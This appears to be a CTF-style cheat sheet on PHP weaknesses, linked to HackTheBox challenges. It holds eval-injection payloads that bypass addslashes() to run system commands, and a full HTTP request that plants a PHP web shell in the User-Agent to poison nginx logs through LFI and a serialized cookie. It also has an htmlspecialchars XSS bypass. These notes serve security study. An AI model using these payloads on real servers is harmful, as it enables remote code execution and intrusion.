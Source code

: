 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.

**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
# htmlentities() & htmlspecialchars
It doesn't encode single quotes by default
```html
'onerror='alert("XSS")''
```
> **Reference**:
> https://github.com/X-Vector/XSS_Bypass/blob/master/htmlspecialchars%20-%20htmlentities/README.md

# Loose Comparison
- `===`
```php
<?php
if(NULL === NULL){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
- `==`
```php
<?php 
if(NULL == ''){ echo "Equal"; } else{ echo "not Equal"; }
?>
// Equal
```
